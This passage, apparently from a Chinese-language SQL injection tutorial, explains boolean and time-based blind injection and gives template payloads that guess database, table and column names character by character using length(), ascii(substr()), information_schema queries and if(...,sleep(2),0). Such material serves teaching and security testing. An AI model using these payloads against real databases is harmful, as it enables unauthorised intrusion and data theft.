 #### （3）布尔盲注  
  
布尔盲注以页面回显内容的不同作为判定依据，通过构造语句返回页面的“真”和“假”来判断数据库信息的正确性。  
  
   
  
布尔盲注提取数据的基本步骤：  
  
1.构造目标数据查询语句  
  
2.选择拼接方式  
  
3.构造判断表达式  
  
4.提取数据长度  
  
5.提取数据内容  
  
常见的拼接方式：原始条件真 and 判断条件真，原始条件假 or 判断条件真等  
  
  
若网页设置了无报错信息返回，在不回显数据+不返回报错信息的情况下，只剩下盲注方法可用，而布尔盲注使用在对真/假条件的返回内容很容易区分的页面中。  
  
   
  
示例：  
```
length(database()) //判断数据库名长度

ascii(substr((database()),s,1))=可用ASCII码值 //从数据库库名第s位开始，截取一位，进行逐一猜解；数据库库、表、字段所有名称的可用字符范围为A-Z、a-z、0-9和下划线，也就是ASCII码值从48到122

length((select table_name from information_schema.tables where table_schema=database() limit 3,1)) //判断数据库中的第4个表表名长度，第1个表从0开始

ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),s,1))=可用ASCII码值 //逐一猜解第4个表的表名

//之后逐一猜解列名与数据
```  
  
#### （4）时间盲注  
  
时间盲注通过构造语句，通过页面响应的时长来判断信息；时间盲注的关键点在于if()函数，通过条件语句进行判断，为真则立即执行，否则延时执行，通常使用sleep()等专用的延时函数来进行延时操作。  
  
   
  
时间盲注与布尔盲注的语句构造过程相似，通常在布尔盲注表达式的基础上使用if函数加入延时语句来构造。通常情况下，盲注需要逐个字符进行判断，极大增加了时间成本，而对于时间盲注来说，还需要额外的延迟时间来作为判断的标准。  
  
   
  
在布尔盲注永假条件所返回的内容与正常语句返回的内容很接近或相同，无法判断的情况下，可使用时间盲注。  
  
   
  
示例：  
```
sleep() //使用延时函数进行判断

if(length(database())=数字,sleep(2),0) //if()函数判断数据库长度，if(Condition,A,B)，当Condition为true时返回A，当Condition为false时返回B

if(ascii(substr(database(),s,1))=可用ASCII码值,sleep(2),0) //使用if函数，从第S位开始截取一位，逐一猜解数据库名，可用ASCII码值范围为48-122

if(length(select table_name from information_schema.tables where table_schema=database() limit 3,1)=数字,sleep(2),0) //逐一猜解数据库第4个表长度，第1个表从0开始

if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),s,1))=可用ASCII码值,sleep(2),0) //逐一猜解数据库第4个表表名

//逐一猜解列名、数据
```  
  